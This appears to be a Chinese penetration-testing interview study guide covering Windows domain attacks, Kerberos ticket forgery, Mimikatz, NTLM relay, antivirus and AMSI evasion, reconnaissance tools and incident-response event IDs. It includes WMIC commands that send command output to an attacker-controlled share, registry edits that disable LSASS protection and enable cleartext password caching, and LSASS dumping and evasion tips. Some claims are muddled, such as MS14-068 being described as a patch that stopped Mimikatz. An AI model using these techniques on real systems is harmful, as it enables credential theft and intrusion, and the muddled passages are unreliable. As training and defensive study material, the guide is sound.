- 可以远程执行命令，但默认执行时**没有回显**，执行结果不直接返回给调用者。
- 要实现有回显的命令执行，需要结合其他技术或技巧。

***

### 2. 常见带回显的 WMIC 命令执行方法

### 方法一：借助临时文件

- 在远程机器上执行命令，并将命令结果重定向到共享路径或本地路径的文件，然后读取该文件内容。

`wmic /node:目标IP process call create "cmd.exe /c whoami > C:\Windows\Temp\out.txt"`

- 然后用 SMB、`type`或其他方式读取`out.txt` 文件。

### 方法二：利用 PowerShell 远程执行并输出结果

`wmic /node:目标IP process call create "powershell -command \"whoami | Out-File C:\Windows\Temp\out.txt\""`

- 同样通过文件方式获取结果。

### 方法三：利用`wmic` 返回值间接获取信息

- `wmic` 会返回进程创建是否成功的状态码，但不返回命令执行输出。
- 结合脚本定时轮询文件内容，实现异步回显。

***

### 3. 进阶技巧：利用`wmic` 执行带回显的命令（绕过无回显限制）

- **用**\*\*`wmic`执行命令，并让远程命令把输出写回调用机器的共享目录 \*\*：
  1. 本地开一个共享目录（例如`\本机IP\share`），目标机器可以访问。
  2. 远程用`wmic` 执行命令，把结果写到该共享目录下文件。
  3. 本地读取文件，获取命令回显。

示例：

`wmic /node:目标IP process call create "cmd.exe /c whoami > \\本机IP\share\out.txt"`

***

### 4. 面试简答示例

> WMIC 默认执行远程命令无回显，常用的带回显执行方法是让远程命令将输出重定向到文件（如目标机器本地路径或本机共享目录），然后再读取该文件内容。常结合 SMB 共享实现命令结果传输。此外，也可以远程执行 PowerShell 命令写文件，再远程读取。通过这种间接方式实现 WMIC 的有回显命令执行。

## ✓windows应急响应中，需要查看哪些安全日志ID，分别对应哪些攻防场景，如果该windows主机为域控，又应该查看哪些事件日志? (★★★)

### 1. 重要安全日志 ID 及对应攻防场景

| 事件ID      | 事件名称                                                                         | 攻防场景描述                     |
| --------- | ---------------------------------------------------------------------------- | -------------------------- |
| **4624**​ | 登录成功（An account was successfully logged on）                                  | 正常及异常登录行为监控，横向移动、恶意登录检测。   |
| **4625**​ | 登录失败（An account failed to log on）                                            | 账户密码爆破、凭据猜测攻击监控。           |
| **4648**​ | 使用显式凭据登录（A logon was attempted using explicit credentials）                   | 横向渗透使用的凭据转发检测。             |
| **4672**​ | 特权登录（Special privileges assigned to new logon）                               | 高权限账户登录监控。                 |
| **4688**​ | 新进程创建（A new process has been created）                                        | 恶意进程执行、恶意命令检测，常用于追踪攻击行为。   |
| **4689**​ | 进程终止（A process has exited）                                                   | 进程生命周期监控。                  |
| **4703**​ | 权限使用（A user right was exercised）                                             | 监控敏感权限使用。                  |
| **4719**​ | 审计策略更改（System audit policy was changed）                                      | 攻击者尝试关闭审计，掩盖痕迹。            |
| **4720**​ | 用户账号创建（A user account was created）                                           | 恶意新增账户。                    |
| **4726**​ | 用户账号删除（A user account was deleted）                                           | 恶意删除账户，清除证据。               |
| **4732**​ | 用户被添加到本地安全组（A member was added to a security-enabled local group）            | 权限提升、后门植入。                 |
| **4738**​ | 用户账户属性更改（A user account was changed）                                         | 恶意更改账户权限。                  |
| **4768**​ | Kerberos 身份验证票据请求（A Kerberos authentication ticket (TGT) was requested）      | Kerberos 认证监控，检测黄金票据攻击。    |
| **4769**​ | Kerberos 服务票据请求（A Kerberos service ticket was requested）                     | 监测票据伪造及滥用。                 |
| **4776**​ | NTLM 认证失败（The computer attempted to validate the credentials for an account） | NTLM 认证异常。                 |
| **4798**​ | 查询用户组成员（A user's local group membership was enumerated）                      | 横向渗透前的权限探测。                |
| **5136**​ | 目录服务对象修改（Directory Service Object Modified）                                  | AD 对象修改，如用户组、策略等，攻击者篡改 AD。 |
| **5140**​ | 网络共享访问（A network share object was accessed）                                  | 异常访问文件共享，横向移动迹象。           |

***

### 2. 域控特有的重点日志

- **目录服务日志 (Directory Service Log)** &#x20;

  主要记录 AD 对象的创建、删除、修改等操作，如事件 ID 5136。
- **DNS 服务器日志** &#x20;

  可监控域名解析异常和DNS隧道攻击。
- **Kerberos 相关事件（4768, 4769, 4770）** &#x20;

  监测 Kerberos 票据请求与使用，预防黄金票据、白银票据攻击。
- **安全事件日志（尤其是与账户管理相关的）** &#x20;

  如用户创建（4720）、用户删除（4726）、权限变更（4732、4738）。

***

### 3. 面试简答示例

> Windows 应急响应中，应重点关注安全日志中的关键事件，如4624（登录成功）、4625（登录失败）、4688（新进程创建）、4720/4726（用户创建删除）、4768/4769（Kerberos票据请求）等，这些事件可帮助发现横向渗透、凭据滥用及权限提升等攻击行为。对于域控服务器，需重点关注目录服务日志（如5136），Kerberos相关事件以及账户管理事件，确保及时发现针对域环境的攻击企图。

## ✓golden ticket和sliver ticket的区别是什么? (★★★)

### 1. Golden Ticket（黄金票据）

- **定义**：攻击者利用域控中`KRBTGT`账户的**NTLM 哈希**，伪造任意用户（包括域管理员）的**TGT（Ticket Granting Ticket）**。
- **作用范围**：对整个域（Domain）有效，几乎可以访问所有域内资源。
- **攻击路径**：
  - 获取`KRBTGT` 用户的密码哈希（通常需要域管理员权限）；
  - 伪造 TGT 票据；
  - 利用伪造票据进行任意身份认证。
- **危害程度**：极高，几乎完全控制域环境。

***

### 2. Silver Ticket（白银票据）

- **定义**：攻击者利用某个服务账号的密码哈希，伪造针对特定服务的**TGS（Ticket Granting Service）**。
- **作用范围**：仅针对特定服务有效（如 SQL Server、HTTP 服务等）。
- **攻击路径**：
  - 获取特定服务账号的密码哈希；
  - 伪造对应服务的 TGS 票据；
  - 利用伪造票据访问该服务。
- **危害程度**：较高，但影响范围有限，仅限于特定服务。

***

### 3. 主要区别对比

| 特征      | Golden Ticket      | Silver Ticket |
| ------- | ------------------ | ------------- |
| 伪造的票据类型 | TGT（票据授予票据）        | TGS（服务票据）     |
| 影响范围    | 整个域所有服务            | 单个服务          |
| 需要的凭据   | 域控中\`KRBTGT\` 账户哈希 | 特定服务账户密码哈希    |
| 攻击权限要求  | 域管理员权限             | 服务账号权限即可      |
| 使用场景    | 域环境完全控制            | 针对某服务的权限提升或访问 |
| 检测难度    | 难以检测，影响广           | 相对容易发现        |

***

### 面试简答示例

> Golden Ticket 是通过获取并使用 KRBTGT 账号哈希伪造整个域的 TGT，能完全控制域环境；而 Silver Ticket 是利用特定服务账号哈希伪造对应服务的 TGS，影响范围仅限该服务。Golden Ticket 通常需要域管理员权限，危害更大；Silver Ticket 只需服务账号权限，范围较小但仍可用于横向渗透。

## ✓sliver ticket利用的前置条件是什么?(★)

1. **获得目标服务账号的密码哈希**
   - 必须获取到用于该服务（如 SQL Server、HTTP、CIFS 等）的域用户账号的 NTLM 哈希或明文密码。
   - 该账号通常是服务运行账户，权限相对较低。
2. **目标服务使用 Kerberos 认证且支持服务票据（TGS）**
   - 目标服务必须使用 Kerberos 验证且接受伪造的 TGS。
3. **攻击者具备能够生成和注入伪造 TGS 的能力**
   - 需要使用工具（如 Mimikatz）构造伪造的服务票据。
4. **目标环境允许票据使用**
   - 没有部署强制的票据签名或加密检测策略，防止伪造票据。

## ✓在非域主机的情况下，如何快速发现域主机？ (★★)

### 1. 查看本地配置获取域信息

- 使用命令查看当前主机所属域：

cmd

复制编辑

`systeminfo | findstr /i "Domain"`

- 如果主机不在域内，通常显示为工作组，但可获得域名信息。

***

### 2. 使用`nslookup`或`dig` 查询域名解析

- 查询常见域控相关的域名记录：

cmd

复制编辑

`nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>`

- 该 SRV 记录指向域控服务器。

***

### 3. 扫描常见域控端口

- 利用端口扫描工具（如`nmap`）扫描内网常见域控端口：

bash

复制编辑

`nmap -p 88,135,389,445,636,3268 -sS <内网网段>`

- 监听这些端口的主机很可能是域控。

***

### 4. 利用 NetBIOS 及LDAP广播查询

- 使用`nbtstat` 查看 NetBIOS 信息：

cmd

复制编辑

`nbtstat -A <IP地址>`

- 查询目标主机是否属于域控制器。
- 使用 LDAP 查询工具（如 ldapsearch）尝试连接常见域控端口389。

***

### 5. 使用网络流量分析

- 监控网络中的 Kerberos（88端口）、LDAP（389端口）通信，识别域控IP。

***

### 面试简答示例

> 在非域主机上，可以通过查看系统信息确认域名，使用`nslookup` 查询 LDAP SRV 记录定位域控服务器，结合内网端口扫描（如88、389端口）快速发现域控。此外，利用 NetBIOS 查询和LDAP连接尝试也能判断域控主机。

## ✓mimikatz的原理，哪个补丁导致了mimikatz无法利用，如何绕过? (★★)

### 1. Mimikatz 的原理

- Mimikatz 是一款 Windows 平台下的密码和凭据提取工具，主要通过以下技术实现：
  - **LSASS 进程内存读取**：直接从`lsass.exe` 进程内存中提取明文密码、哈希、Kerberos 票据等敏感信息。
  - **利用 Windows API**：调用系统函数，如`OpenProcess`和`ReadProcessMemory`，访问 LSASS 进程内存。
  - **利用 Windows 身份验证机制漏洞**：如 Pass-the-Hash（PtH）、Pass-the-Ticket（PtT）等攻击技术。
  - **密码哈希提取**：抓取 NTLM 哈希和明文密码（部分场景）。
  - **Kerberos 票据操作**：生成和注入票据，实现横向渗透。

***

### 2. 导致 Mimikatz 无法利用的关键补丁

- **MS14-068 补丁**（CVE-2014-6324）修复了 Kerberos 验证机制中的一个重要漏洞，阻止了伪造票据的攻击。
- **Windows 10 及 Windows Server 2016+ 中的 LSA 保护机制（LSA Protection / RunAsPPL）**：
  - 通过给 LSASS 进程添加“保护进程”标志，防止非系统权限进程访问 LSASS 内存。
  - 使得 Mimikatz 无法成功打开和读取 LSASS 内存。

***

### 3. 绕过方法

### 3.1 绕过 LSA 保护（RunAsPPL）

- **禁用 LSA 保护**（不推荐且风险大）：
  - 修改注册表：

    `HKLM\SYSTEM\CurrentControlSet\Control\Lsa "RunAsPPL"=dword:0`
  - 重启系统后禁用保护。
- **使用内核态驱动绕过**
  - 利用内核驱动读取 LSASS 内存，绕过用户态访问限制。
  - 如使用反内核防护绕过工具或内核模块。
- **利用调试权限**
  - 通过`SeDebugPrivilege` 权限，绕过保护。
  - 需要管理员权限或更高。

### 3.2 利用“手工转储+离线分析”

- 通过系统工具导出 LSASS 内存镜像（如`procdump`），然后离线使用 Mimikatz 分析，不直接访问运行中进程。

***

### 面试简答示例

> Mimikatz 通过读取 LSASS 进程内存，提取明文密码、哈希和 Kerberos 票据，实现凭据窃取和横向渗透。Windows 推出的 LSASS 保护机制（RunAsPPL）限制了对 LSASS 内存的访问，使 Mimikatz 直接运行失败。绕过方法包括禁用保护、使用内核驱动绕过、或先导出内存转储后离线分析。

## ✓有没有办法在不重启机器的前提下启用wdigest这个SSPI? (★)

### 背景说明

- WDigest 是 Windows 早期用于存储和传输明文密码的一种身份验证协议。
- 默认情况下，从 Windows 8.1 和 Server 2012 R2 开始，微软禁用了 WDigest 明文密码缓存，需修改注册表并重启才能生效。

***

### 不重启机器启用 WDigest 的方法

1. **修改注册表，启用 WDigest**

`Windows Registry Editor Version 5.00 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest] "UseLogonCredential"=dword:00000001`

1. **刷新注册表设置，无需重启**

- 使用命令让系统重新加载注册表配置：

`# 停止并启动 Windows 身份验证相关服务（比如 IIS 相关服务）可能会生效，但不是所有服务 # 主要是重新加载 LSA 或相关进程，比较复杂 # 更简单且常用的方法是重启 lsass 进程，但这风险极高，且一般不建议 # 另一种更安全的方法是让用户注销并重新登录，触发凭据重新加载`

1. **注销并重新登录用户**

- 修改注册表后，注销当前用户并重新登录即可生效，无需重启机器。

***

### 注意

- **直接重启 LSASS 进程风险极高，可能导致系统蓝屏或重启，且操作权限非常高。**
- **注销用户会中断当前会话，但避免了重启整个机器。**
- 该方法适用于想临时启用 WDigest 明文密码缓存，方便应急取证等场景。

***

### 面试简答示例

> 在 Windows 中启用 WDigest SSPI，除了修改注册表外，还需要重启机器或者注销当前用户，才能让设置生效。通常不建议重启 LSASS 进程，因为风险大。通过注销当前用户并重新登录，可以在不重启机器的情况下启用 WDigest。

## ✓NTLM relay的攻击场景有哪些，使用NTLM relay会受到哪些限制? (★)

### 1. NTLM Relay 攻击场景

- **内网横向渗透**：攻击者在局域网内截获合法用户的 NTLM 认证请求，将其转发给其他目标主机，实现身份冒充。
- **针对 SMB 服务的攻击**：利用 NTLM Relay 攻击 SMB 协议，实现远程代码执行或权限提升。
- **针对 HTTP 服务的攻击**：中间人劫持 HTTP 协议的 NTLM 认证，实现会话劫持或权限升级。
- **域环境中利用 Relay 攻击域控或关键服务**：借助 Relay 技术进行域内权限提升，甚至生成域管理员权限。
- **针对打印机、文件共享等支持 NTLM 的服务**：利用 Relay 攻击实现文件读取、写入或服务破坏。

***

### 2. NTLM Relay 的限制

- **需要中间人位置**：必须处于客户端和服务端之间，能够截获并转发认证数据。
- **目标服务必须支持 NTLM 认证**：如果服务只支持 Kerberos，则无法被 NTLM Relay 攻击。
- **防护措施影响效果**：
  - 启用**SMB Signing（SMB 签名）** 会阻止 NTLM Relay 攻击。
  - 使用**LDAP signing**或**Channel Binding** 也能防御。
- **Relay 到的服务权限受限**：
  - 受限于被 Relay 的账户权限，无法超出其权限范围。
- **网络拓扑限制**：
  - 在跨域或跨网络环境中，Relay 攻击难度增加。

***

### 面试简答示例

> NTLM Relay 攻击常见于内网横向渗透，通过截获和转发 NTLM 认证请求，攻击者可冒充用户访问 SMB、HTTP、LDAP 等服务，达到权限提升或远程执行目的。但该攻击依赖中间人位置，且目标服务必须支持 NTLM，启用 SMB 签名和 LDAP 签名等安全配置可有效防御。

## ✓windows中如何鉴别用户身份? SID是什么? 基于SID的SID History攻击原理是什么? (★)

### 1. Windows 中如何鉴别用户身份？

- Windows 通过**安全标识符（SID, Security Identifier）** 唯一标识每个用户、组和计算机账户。
- 登录时，系统验证用户名和密码后，生成包含用户 SID 的访问令牌（Access Token）。
- 访问资源时，系统通过检查访问令牌中的 SID 与资源权限的 ACL（访问控制列表）匹配，判断用户权限。
- 用户身份鉴别依赖于 SID 的唯一性和完整性。

***

### 2. SID 是什么？

- SID 是 Windows 中用于唯一标识用户、组、计算机等安全主体的字符串标识符。
- 格式类似：`S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX-1001`
- 包含域标识符和相应账户的相对标识符（RID）。
- SID 保证同一账户在不同机器上的唯一性。

***

### 3. 基于 SID 的 SID History 攻击原理

- **SID History** 是 Active Directory 中账户属性，记录账户以前所属组或域的 SID，用于跨域迁移兼容。
- 攻击者通过修改账户的 SID History 属性，**添加高权限账户的 SID**，使自己具备目标权限。
- 访问控制检查时，系统会同时验证当前 SID 和 SID History 中的 SID，从而绕过权限限制。
- 这种攻击常用于横向渗透和权限提升，尤其是在域迁移或信任关系环境中。

***

### 面试简答示例

> Windows 通过 SID 唯一标识用户身份，访问控制通过比较访问令牌中的 SID 与资源 ACL 来决定权限。SID 是安全标识符，用于标识用户和组。SID History 是 AD 中的一个属性，记录账户过去的 SID。攻击者可以通过修改 SID History，添加高权限的 SID，从而实现权限提升，绕过安全限制。

## ✓假设拿到了某台域机器的权限，但是机器上并没有域账户，应该如何进行域渗透? (★★)

### 1. 利用本地权限进行横向渗透的挑战

- 机器上无域账户，说明该机器本地账户与域账户未直接绑定。
- 无法直接用域账户登录该机器或利用该机器上的域账户凭据。
- 需要通过其他手段向域环境渗透。

***

### 2. 域渗透常用方法

### 2.1 获取本地管理员凭据

- 尝试**dump 本地管理员账号密码哈希**（如使用`Mimikatz`、`secretsdump.py`）。
- 利用本地管理员权限，通过`wmic`、`psexec`、`winrm` 等工具远程执行命令，尝试访问域控或其他域内主机。

### 2.2 利用已缓存的域凭据

- 查看机器上是否存在缓存的域账户凭据（如 Windows Credential Manager、Vault）。
- 利用缓存凭据尝试远程连接域内其他主机。

### 2.3 利用 Kerberos 票据或 Token

- 通过**Pass-the-Hash**或**Pass-the-Ticket** 攻击。
- 如果能获取到机器的**计算机账户密码哈希**，可以伪造计算机票据（Machine Account TGT），利用`kerberos` 进行认证。

### 2.4 利用信任关系与服务账户

- 查找机器上的服务账户、任务计划或运行中的进程是否使用域账户。
- 通过提取服务账户凭据进行横向渗透。

### 2.5 利用内网探测与端口扫描

- 扫描内网常见域控端口（88、389、445、135等）。
- 结合内网侦察，寻找域控或其他关键资产。

***

### 3. 面试简答示例

> 当目标机器没有域账户时，可先利用本地管理员权限导出本地密码哈希，尝试横向远程执行；同时检查是否存在缓存的域凭据或运行中的域服务账户凭据；还可以利用机器账户哈希进行 Kerberos 认证，伪造票据进行域认证；最后通过内网侦察发现域控或其他目标，逐步实现域渗透。

## ✓域的初始化配置允许任何域用户登录任意加了域的机器，这是为什么? (★)

### 原因解析

### 1. 默认本地“远程登录权限”配置

- 域内新加入的机器默认将 \*\*“域用户”（Domain Users）**添加到了本地的**“允许通过远程桌面服务登录”（Remote Desktop Users）\*\* 组或本地登录权限中。
- 这意味着所有域用户默认拥有登录这台机器的权限。

### 2. 本地安全策略和组策略未进行限制

- 如果没有针对“本地安全策略”中的 \*\*“允许登录本地”**（SeInteractiveLogonRight）或**“允许通过远程桌面服务登录” \*\*（SeRemoteInteractiveLogonRight）进行限制，域用户就会默认拥有登录权限。
- 域策略（GPO）未对该项做严格配置，导致所有域用户可以登录。

### 3. “Authenticated Users”或“Domain Users”默认被授予访问权限

- 默认很多资源和登录权限对“Authenticated Users”（所有经过认证的用户）或“Domain Users”开放，缺少细粒度权限控制。

***

### 解决建议

- 使用组策略精细化配置登录权限，限制只有特定用户组（如域管理员、指定组）能登录。
- 修改本地安全策略中的“允许登录本地”和“允许通过远程桌面服务登录”权限。
- 定期审计机器的本地用户组成员，及时剔除不必要的权限。

***

### 面试简答示例

> 域的初始化配置中，默认将“域用户”组加入了本地允许登录的权限中，导致任何域用户都可以登录域内任意已加入域的机器。这是因为默认策略没有限制登录权限，解决方法是通过组策略或本地安全策略，限制只有特定用户组能够登录。

## ✓如何查询域管登录过的机器，查询原理又是什么? (★)

### 1. 查询方法

### 方法一：使用事件日志（推荐）

- **在域控上查询安全日志（Security Event Log）**，筛选域管理员登录事件。
- 关键事件ID：
  - **4624**：成功登录事件。
  - **4768**、**4769**：Kerberos 票据请求事件，反映用户认证。
- 通过筛选这些事件中**账户为域管理员** 的登录记录，定位域管理员登录的机器名或 IP。

powershell

复制编辑

`Get-WinEvent -FilterHashtable @{LogName='Security';ID=4624} |  Where-Object {     ($_.Properties[5].Value -like "*Domain Admins*") -and     ($_.Properties[18].Value -eq "10") # 登录类型为远程交互登录 }`

### 方法二：查询计算机上的登录事件

- 在各目标机器上查询安全日志中**4624** 事件，筛选域管理员账户登录记录。
- 适合配合日志集中管理系统。

### 方法三：使用 PowerShell 脚本结合域查询

- 利用`Get-EventLog`或`Get-WinEvent` 从远程机器收集登录信息。
- 或者结合 SIEM 工具、日志分析平台。

***

### 2. 查询原理

- Windows 安全日志记录了所有用户登录事件，其中包含：
  - 登录用户名（域账号）
  - 登录时间
  - 登录类型（交互式、远程桌面、网络等）
  - 登录机器名称或 IP
- 通过分析这些日志，定位域管理员的登录活动。
- Kerberos 事件（4768/4769）反映了认证票据请求，间接显示登录行为。

***

### 面试简答示例

> 查询域管理员登录过的机器，主要通过分析域控和目标主机的安全日志，筛选登录成功（4624）事件中域管理员账户的登录记录。关键是看登录时间、登录类型和来源机器信息。Kerberos 票据请求事件也可辅助判断登录行为。日志分析的准确性依赖于安全审计和日志采集的完善。

# 下面为微信公众号爬取—-—————-—---—

# 渗透测试的思路？

- 信息收集+漏扫
- 漏洞验证与利用
- 内网渗透
- 清理后门日志
- 报告总结

# 漏洞扫描的时候应该注意哪些事项？

- 约定好渗透时间，渗透到什么程度？哪些敏感操作不能进行，提醒客户进行必要的备份
- (扫描前咨询是否可以弱口令暴力破解，因为有的做过等保，密码输入几次数据库之类的就锁死了，这时候不能做弱口令爆破)
- 根据服务器性能合理配置扫描器并发数，防止宕机。
- 测试中若存在功能无法使用的情况，要及时与客户沟通。若无法沟通的要详细记录到报告中(路径、链接、截图)
- 扫描配置策略要合理配置，例如DDOS要去掉，避免造成拒绝服务攻击，直接扫描崩掉了
- 扫描完如果需要攻击验证的，验证完一定要把上传的木马等文件删除掉。如果删除不掉，一定要通知客户

# 打点一般会用什么漏洞？

优先以java反序列化这些漏洞像shiro，fastjson，weblogic，用友oa等等进行打点，随后再找其他脆弱性易打进去的点。

因为javaweb程序运行都是以高权限有限运行，只有少部分可能会降权。

平常怎么去发现shiro漏洞的？

登陆失败时候会返回rememberMe=deleteMe字段或者使用shiroScan被动扫描去发现

**完整回答：**

未登陆的情况下，请求包的cookie中没有rememberMe字段，返回包set-Cookie里也没有deleteMe字段

登陆失败的话，不管勾选RememberMe字段没有，返回包都会有rememberMe=deleteMe字段

不勾选RememberMe字段，登陆成功的话，返回包set-Cookie会有rememberMe=deleteMe字段。但是之后的所有请求中Cookie都不会有rememberMe字段

勾选RememberMe字段，登陆成功的话，返回包set-Cookie会有rememberMe=deleteMe字段，还会有rememberMe字段，之后的所有请求中Cookie都会有rememberMe字段

03

—

# 说下平时怎么做代码安全审计的，具体思路？

代码审计的核心思想就是追踪参数，而追踪参数的步骤就是程序执行的步骤，说白了代码审计就是一个跟踪程序执行步骤的一个过程：

- 逐条读代码，了解整个框架的流程过后，从我一般是先阅读权限控制模块，然后直接通读Controller模块,然后跟踪看看, 后面你会发现很多类似的代码，从而提高通读的速度的。
- 敏感函数回溯(使用工具审计；Fortify SCA扫描)，结合业务场景，逐个功能点进行测试，根据输入来追踪变量的最终形态；一些不在显示页面的功能点所存在的漏洞可能就会挖掘不到
- 定向功能分析

在php中反序列过程中 有哪些函数会自动执行？

\_\_destruct \_\_tostring

# **免杀**常见的hook方法有哪些，并简单介绍？

inline hook:通过改变目标函数头部的代码使改变后的代码跳转到杀软设置的函数里产生hook 

iat/eat hook:通过替换iat表中咱数的原始地址实现hook

第二个替换过后的原始地址就是杀软设置的函数地址，调用就会被hook

如何免杀dump hash？

加壳mimikatz，或者echo1>>mimikatz

调用系统dll导出函数进行dump。例如comsvcs.dll MiniDumpWriteDump

如何通过绕过win32接口层，直接调用系统api来绕过r3层的hook？

找到对应的native api函数原型和系统调用号，然后通过汇编调用direct system calls来自定义systemcall函数，就可以实现直接调用并不需要再经过native api

# 渗透测试过程中如何信息收集，能说一下渗透测试信息收集方法吗？

- 收集子域名：搜索引擎、爆破（Layer）、公开的DNS源、JSFinder（从JS文件中快速提取URL和子域）、SSL证书、备案号、APP提权（反编译）、微信公众号（抓包）、OneForAll
- 收集端口：nmap、masscan
- 指纹识别：御剑、whatweb、云悉等
- waf识别（工具）
- CDN识别（在线网站）
- 子目录爬取：7kb、破壳、webscan、dirsearch、dirmap

# 渗透都用哪些工具？

Appscan、AWVS、天镜、Nessus、Nmap、Burpsuite、SQLmap、MSF、CobaltStrike等

你在工作中用过那些扫描器，这些扫描器有那些优点缺点？

**AWVS**

优点：操作简单，扫描速度快

缺点：报告只有英文版

**AppScan/天境**

优点：漏洞验证可查看相应代码，有较完整的修复建议（中文报表，内容齐全）

缺点：扫描速度慢（payload删不掉，一些大站是不让用扫描器扫的）

**Nessus**

优点：扫描项广泛，操作简单

缺点：不支持中文

**nmap**

优点：扫端口能力很强

缺点：命令太多不好记，扫漏洞能力一般

02

— &#x20;

# Linux Polkit权限提升漏洞原理？

Polkit的pkexec是一个Linux下的setuid工具，允许授权用户在预定的策略下以其他用户身份执行命令。由于当前版本的pkexec无法正确处理调用参数计数，并最终会尝试将环境变量作为命令执行。攻击者可以通过控制环境变量，从而诱导pkexec执行任意代码。利用成功后，可导致非特权用户获得管理员权限

# 约束与非约束委派攻击的利用和原理？

在实际情况中，往往多个服务不可能都在一台机器中，那么如果用户在使用服务A时，又需要用到服务B上的数据，那么最简单的方式就是A代替用户去请求B并返回相应的数据，这个过程就是委派

**约束委派**

即Kerberos的扩展协议S4U2Proxy，服务A只能获取某用户的TGS，从而只能模拟用户访问特定的服务，这也相对应非约束委派更安全一些

**非约束委派**

用户去访问服务A，A开启了非约束委派，那么当用户访问服务A的时候会将用户的TGT发送给服务A，并保存进内存。服务A能够利用用户的身份去访问 用户能够访问的任意服务

讲一下域渗透？

首先确定所在位置，工作组还是域环境，收集主机信息，定位关键网段，定位域控，漏洞利用或者信息收集密码

03

—

# 进程迁移，如何绕过defender查杀远程线程注入？

dll劫持一个白名单程序，启动该白名单程序，在该程序中执行进程迁移操作编写免杀dll，用lolbin加载注入到目标进程

# 常见免杀思路？

- 抑或、编码、替换函数、花指令
- CS：白加黑（DLL劫持）、远程线程注入、dll注入、无文件落地、shellcode加载器、分离免杀(request库远程加载)
- powershell混淆、掩日免杀框架

# AMSI遇到过吗？怎么绕过？

AMSI（Antimalware Scan Interface），即反恶意软件扫描接口，在windows 10和 windows server 2016上默认安装并启用。顾名思义，他的工作就是扫描、检测和阻止。windows 10和windows server2016中AMSI默认杀软就是Windows Defender。

**绕过：**

- 编码，分割，拼接
- powershell降级，V2不支持AMSI
- 网上有一些禁用的脚本，但是要注意webshell里面HTTP是无状态的嘛，最好先上线在马子上面执行脚本

# 常见搭配---操作系统、中间件、脚本语言、数据库

Linux+apache+PHP+MySQL（缩写LAMP）

Linux+Nginx+PHP+MySQL（缩写LNMP）

Windows+IIS+asp/aspx+MSSql

Windows+IIS+asp+access

Windows+IIS+aspx+Oracle

Linux+Tomcat+JSP+Oracle

Linux+Tomcat+JSP+MySQL

Windows+Tomcat+JSP+MSSql（自己写的，不知道有没有，主要为了提醒Linux不支持MSSql，MSSql只能在Windows上使用）

扩展：Linux不支持access、MSSql数据库，也可以作为一个推断依据 

# 渗透测试过程如何判断对方操作系统是什么操作系统？

- 工具(RASS、天镜、NMAP、X-SCAN)
- 第三方平台站长之家([seo.chinaz.com](http://seo.chinaz.com "seo.chinaz.com"))
- 通过ping观看TTL值（TTL大于100是Windows，几十的一般是Linux，TTL值可以修改，有些Windows TTL也是几十，这个方法不一定准确）
- 通过大小写，Windows不区分大小写

你是怎么知道对方网站使用了那些常用cms系统搭建的（指纹信息是什么）？

- 手工识别

看网页头部底部页面，管理后台页面，网站说明文件等

- 工具识别

windows系统通过御剑web指纹识别程序进行识别

linux系统通过whatweb进行识别

潮汐指纹等在线网站[http://finger.tidesec.net/](http://finger.tidesec.net/ "http://finger.tidesec.net/")

# 内网渗透，无法连接外网，没有回显，获取数据？

找一台能出网的机器，或者copy到webshell上

# 如何拿到管理员密码？

翻密码本，浏览记录，抓密码，钓鱼，键盘记录

# 如果拿到管理员密码被加密解不开怎么办？

分情况，注入拿到的后台管理员，本地搭建一套密码改成123456，替换密码表密码和盐值登陆

内网抓到的，直接wmi哈希登陆，或者哈希喷洒

# 进入内网后如何查找域控服务器？

分为两种情况：

**域外定位域控**

- 扫端口，88端口Kerberos，389端口ldap，464密码策略端口，53DNS端口（vcenter也会开389）、636端口也是密码策略
- 扫一下netbios

**域内定位域控**

- net time /do  时间同步服务器
- ipconfigDNS服务器
- 端口同上

# 拿到高权限后如何降权？

migrate 进程迁移

# Wiondows常见事件ID？

4625大量失败，应该是爆破，找附近4624成功的

# windows登录类型？

类型2就是键盘登录，多是员工自己

登录10就是rdp登录，可能是黑客

# 工作中有遇到过一些紧急事件吗？如何处理的？

印象比较深的是应急中有些情况需要加减ia锁，但是病毒进程会实时注入，kill9杀不掉，这时候要用killSTOP

# nmap全端口扫描怎么做？常用的参数有哪些？

nmap -sS -p- IP  /  nmap -sS -p 1-65535 IP

- -sS SYN半连接扫描
- -sT全连接扫描
- -sA ACK扫描可以绕过防火墙
- -sn/-sP 主机发现、只做ping
- -Pn/-P0 不做ping，默认主机都在线
- -sV 服务版本扫描
- -O 系统版本扫描
- -sC 根据端口识别服务自动调用默认脚本

# sqlmap常用参数有哪些？

- \--batch 不会询问你输入 全部默认确定
- \--random-agent   自动UA头
- \--dbs mysql  制定数据库
- \--force-ssl   忽略https
- \--current-user：大多数数据库中可检测到数据库管理系统当前用户
- \--is-dba：判断当前的用户是否为管理
- \--flush-session 刷新缓存
- \--dbs 列出所有数据库
- \--current-db 列出当前数据库

# 扫网站敏感目录用什么工具？

- 7kb
- 破壳
- webscan
- dirsearch（缺点：没有针对404页面做一个判断，路径下可能有东西。这点dirmap相对可能会好一些）

# OWASP top10有哪些？

- 注入
- 失效的身份认证和会话管理
- 敏感信息泄露
- XXE
- 失效的访问控制
- 安全配置错误
- XSS
- 反序列化
- 不安全的组件（中间件漏洞）
- 不足的日志记录监控

# 怎么拿到域管理员权限？

抓密码，管理员曾经登陆过的话会有记录、翻密码本、漏洞利用

# 永恒之蓝和0708攻击方式有什么区别？

永恒之蓝是SMB445，0708是RDP3389

# mysql UDF提权.dll文件，版本大于多少放那个文件夹下，小于多少放到哪个文件夹下？

- MySQL<5.0，导出路径随意
- 5.0 <= MySQL<5.1，则需要导出至目标服务器的系统目录（如：c:/windows/system32/）
- MySQL 5.1以上版本，必须要把udf.dll文件放到MySQL安装目录下的lib\plugin文件夹下才能创建自定义函数

# 应急响应的基本流程是什么？

准备、检测（启动）、抑制、根除、恢复、跟踪

# 应急响应检查哪些措施？

进程、服务、端口、注册表、自启动

# 常见的病毒有哪些？

bsd-port、Tellyouthepass、bioset、Mozi.m、kthreaddi

# Linux应急响应流程？如何定位问题文件？

- 排查项：

账号（cat etc/passwd、shadow）

历史命令（history）

端口（netstat）

进程（ps）

启动项（runlevel）

服务（chkconfig）

日志（grep）

定时任务（ more /etc/cron.daily/ \*）

- 定位文件：

ls -l /proc/\$PID/exe

# SQL注入的原理是什么？

程序开发的时候没有对参数进行过滤，造成攻击者直接带入非法语句，对数据库进行读写操作

sql注入的几种类型？

- 联合查询注入
- 报错注入 
- bool型盲注 
- 时间盲注
- 其他注入（宽字节注入）

# 报错注入的函数有哪些？ 

常见的三个，updataxml、ex开头的（这两个属于XPATH报错注入）、还有一个用伪随机数的，利用固定数值报错

绕waf的话用一些不常见的函数，比如一些数学的函数

